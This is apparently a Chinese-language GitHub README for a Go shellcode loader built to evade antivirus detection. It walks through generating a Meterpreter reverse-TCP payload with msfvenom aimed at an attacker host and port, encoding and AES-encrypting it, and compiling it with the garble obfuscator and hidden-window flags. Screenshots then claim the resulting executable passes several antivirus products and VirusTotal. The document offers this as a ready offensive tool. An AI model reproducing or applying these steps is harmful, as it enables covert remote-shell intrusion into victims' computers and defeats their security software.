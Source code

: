 # go-shellcode-loader

GO免杀shellcode加载器

#### 获取项目

```Bash
git clone https://github.com/HZzz2/go-shellcode-loader.git
cd go-shellcode-loader
//下条命令安装第三方混淆库  GitHub地址：https://github.com/burrowers/garble
go install mvdan.cc/garble@latest    

```

#### 生成shellcode并base64

`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=9999 -f raw > rev.raw`

`base64 -w 0 -i rev.raw > rev.bs64`

`cat rev.bs64`

**复制到aes-sc.go中的51行替换payload**

运行aes-sc.go生成AES加密后的值

`go run aes-sc.go`

复制输出的值到go-sc.go中的73行替换payload

#### **编译成exe可执行程序**

`garble -tiny -literals -seed=random build -ldflags="-w -s -H windowsgui" -race go-sc.go`

参数解释：

  garble(混淆库)：
                          
                          -tiny                    删除额外信息
                          
                          -literals               混淆文字

                          -seed=random   base64编码的随机种子 

  go：
        -w                        去掉调试信息，不能gdb调试了

        -s                         去掉符号表

        -H windowsgui    隐藏执行窗口，不占用 cmd 终端。 （被查杀率高）

        -race                    使数据允许竞争检测

编译后得到go-sc.exe

#### 检测图

**火绒**

![image](https://user-images.githubusercontent.com/22775890/172315590-c32aa9ad-0b2b-43cd-a96c-45d971a83ef5.png)


**360杀毒**

![image](https://user-images.githubusercontent.com/22775890/172315610-9bfa9d41-31a1-42d5-bd54-b0ce3e73318d.png)


**360卫士**

![image](https://user-images.githubusercontent.com/22775890/172315642-73266f42-6019-42b7-bb02-5dd59b0925b7.png)



**DF**

![image](https://user-images.githubusercontent.com/22775890/172315670-89a23a36-5e1f-40e8-b311-a4a22490d1ca.png)



**virustotal**

![image](https://user-images.githubusercontent.com/22775890/172315706-4fbd57a6-0e14-497a-af91-ea6c7cdf0704.png)



**微步云杀箱**

![image](https://user-images.githubusercontent.com/22775890/172315732-84eb7a75-481c-4904-a341-bd96a336ad87.png)




**运行效果**




https://user-images.githubusercontent.com/22775890/172315782-707cfbbb-90ed-4156-97d8-dcaf0da8a554.mp4



